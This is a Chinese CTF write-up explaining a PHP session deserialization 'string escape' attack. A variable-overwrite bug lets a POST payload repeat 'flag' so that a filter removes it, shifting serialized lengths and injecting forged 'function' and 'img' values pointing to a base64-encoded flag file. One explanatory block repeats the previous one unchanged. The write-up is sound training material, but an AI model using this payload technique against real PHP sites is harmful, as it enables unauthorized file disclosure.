

**payload**

get传 f=show_image
post传：

```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:8:"function";s:7:"H9_dawn";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

**解释**

因为有变量覆盖漏洞，所以经过session被序列化之后会变成这样（括号里是我们传的变量值）：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:68:"【a";s:8:"function";s:7:"H9_dawn";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}】";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

然后这串字符串经过过滤函数之后，会变成：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:68:"【a";s:8:"function";s:7:"H9_dawn";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}】";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

可以看到，24后面的6个flag被替换为空了，但是指定的长度还是24，怎么办呢？它会往后吞，不管什么符号，都吞掉24个字符。吞完之后变成了这样

```
a:3:{s:4:"user";s:24:"【";s:8:"function";s:68:"a】";s:8:"function";s:7:"H9_dawn";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

看，括号里的字符串就变成了user的值，这时候我们自己输入的function参数和img参数，就把真的参数替代掉了，假猴子替换了真猴子。

注意格式，我看别人的WP没有function参数也是可以的，但是必须要凑够3个参数，因为一开始序列化的时候指定了有3个参数 





### [CISCN2019 总决赛 Day1 Web4]Laravel1

https://guokeya.github.io/post/iG-_evz93/

https://www.cnblogs.com/wangtanzhi/p/12300899.html